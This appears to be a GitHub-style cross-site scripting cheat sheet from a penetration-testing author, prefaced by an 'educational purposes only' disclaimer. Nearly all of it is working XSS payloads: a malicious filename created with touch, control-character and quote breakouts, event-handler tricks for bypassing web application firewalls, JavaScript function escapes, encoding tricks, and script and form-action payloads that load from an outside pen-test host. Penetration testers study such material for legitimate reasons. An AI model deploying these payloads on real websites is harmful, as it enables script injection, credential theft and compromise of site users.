 Warning
==============

All the information provided on this site is for educational purposes only.

The site or the authors are not responsible for any misuse of the information.

You shall not misuse the information to gain unauthorized access and/or write malicious programs.

These information shall only be used to expand knowledge and not for causing malicious or damaging attacks.


Linux filenames and uploads
==============
This has been a trick I have used for years. When I am lazy, I find my trust file
```html
<img src=a onerror=prompt()>.pdf
```
Linux allows you to create this file. Windows, well they don't. Use this if you are lazy like me.
```bash
touch "<img src=a onerror=prompt()>.pdf"
```

Able to inject script, iframe, anchor but something is parsing your input?
==============
%0A,%1A,%0B,%1B,%0C,%1C,%0D,%1D,%0E,%1E,%0F,%1F may be able to help you
```html
http://yourhost/blah?Parameter="><a href="%0F%1Fjavascript:prompt(123)">asdf
http://yourhost/blah?Parameter="><iframe src="%0F%1Fhttps://www.aswsec.com/"></iframe>
http://yourhost/blah?Parameter="><script src="%0B%1Fhttps://www.aswsec.com/pen-test/simple.js"></script>
```

Did you break out of a tag and script, iframe, img, a, etc are all blocked by the WAF?
==============

Did they block onerror onload onclick? It is important to remember that the basic events work even with elements not part of html. Try something like this:
```html
<XXXXXXX ondblclick=prompt(1)>Some Text, Don't even care to end the tag either.
```
If you just need to break out for Proof of Concept and can't use a > to close your tag, this will utilize the " or ' in your injection depending on the developer's choice for the attribute you are breaking.
```html
" onclick="prompt(1)
' onclick='prompt(1)
```
WAF got you down? There are a ton of bypasses, look at HTML5 for more ideas also (Just remember IE vs Firefox and HTML5 support.
```html
<body onpageshow="prompt(123)">
<details open ontoggle="prompt('xss via toggle')">Toggle Me For More prompts</details>
<details/open/ontoggle="alert`1`">
<video onmouseenter=prompt(123)>
<video onwheel=prompt(123)>
<math><maction actiontype="statusline" 
xlink:href="http://www.aswsec.com/pen-test/x.svg">CLICKME<mtext></mtext></maction>
<button/formaction=https://www.aswsec.com/pen-test/validateLogin.html>Login<!--
```
Here you will find a great resource: https://html5sec.org/

Here you will find more ideas:
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20injection

Don't forget the injection might not be a form tag but in the javascript.
==============
```html
";prompt(1);//

';prompt(1);//
```

What if they are in a function? Break out of it. Count the brackets, etc to kill the function.
```html
"};prompt(1);//
```
You may need to reconstruct the function
```html
"};prompt(1);function whatever(){//
```
Sometimes you can't reconstruct but you can make the Javascript right
```
"},function(data){});prompt(1);(//
```
Don't forget %0D%0A if you need a new line and it renders as a new line

Obscure Breakout
==============
If you copy the two alerts and paste into the Console of the web browser, execute and get NaN
```html
EXTREMELY Useful if you can't use ; or // to escape your function calls. You may have to
reconstruct your functions using ') or matching the total number of parameters and you may have to
clean up the end by calling the function again and passing useless data, but you javascript has to be correct.
alert(1)+alert(2)
NaN
```
```html
a'*prompt(123)*'
<script>
var a = 'a'*prompt(123)*'a';
var b = "a"*prompt(456)*"a";
</script>
```
```
http://yourtarget/whatever?a=<a &a= onclick=prompt(123) &a= >adsf
```
That would render potentially
```html
<a , onclick=prompt(123) , >asdf
```
Event Handlers You Should Investigate to bypass WAF
==============
https://www.w3.org/TR/html52/single-page.html

When you can't use spaces
==============
```html
<details/open/ontoggle=prompt(123)>
```
When the text is forced UPPERCASE
==============
```html
<IMG SRC=1 ONERROR=&#X61;&#X6C;&#X65;&#X72;&#X74;(1)>
```
Just for fun
==============
```html
<a/href="data:text/html;charset=utf-8,<script>alert(123)</script>">Just Interesting</a>
```
Internet Explorer can be your friend
==============
A lot of times you will notice that " or ' has become %22 or %27 in Chrome, Firefox, Opera etc. But did you try Internet Explorer. Many times you can get an Internet Explorer only XSS due to how the browser works.

Interesting XSS
==============
```html
<xxxxxx onmouseover=confirm(/Mouse&nbsp;Test&nbsp;It/.source)>Example 123
<img src=a onerror="self['prompt'](2)">
```
Just a few things to remember
==============
```
%3c -- <
%3e -- >
%2b -- + (this is important for sql injection)
%26%2360; -- <
%26%2362; -- >
\u003C -- <
\x27 -- '
%26lt; or %26lt -- <
%26gt; or %26gt -- >
```
Double Encoding Example
```
%253c
```
Triple Encoding
```
%25253c
```
Override the getter for User Agent is pulled from browser vs header
```javascript
navigator.__defineGetter__('userAgent',function(){return '<details open ontoggle=prompt(\'asdf\')>'});navigator.userAgent
```

